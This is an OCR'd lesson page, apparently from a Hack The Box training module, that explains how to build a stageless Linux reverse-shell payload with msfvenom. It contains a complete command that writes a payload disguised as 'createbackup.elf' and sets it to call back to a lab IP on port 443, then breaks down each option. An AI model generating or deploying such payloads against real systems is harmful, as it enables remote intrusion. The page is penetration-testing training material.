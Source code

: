 
## **Building A Stageless Payload**

Now let's build a simple stageless payload with msfvenom and break down the command.

### **Build It**

```
th1nyunb0y@htb[/htb]$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f elf > createbackup.elf

[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 74 bytes
Final size of elf file: 194 bytes
```

### **Call MSFvenom**

Crafting Payloads with MSFvenom

```
msfvenom
```

Defines the tool used to make the payload.

### **Creating a Payload**

```
-p
```

This `option` indicates that msfvenom is creating a payload.

### **Choosing the Payload based on Architecture**

```
linux/x64/shell_reverse_tcp
```

Specifies a `Linux` `64-bit` stageless payload that will initiate a TCP-based reverse shell (`shell_reverse_tcp`).

### **Address To Connect Back To**

```
LHOST=10.10.14.113 LPORT=443
```

When executed, the payload will call back to the specified IP address (`10.10.14.113`) on the specified port (`443`).

### **Format To Generate Payload In**

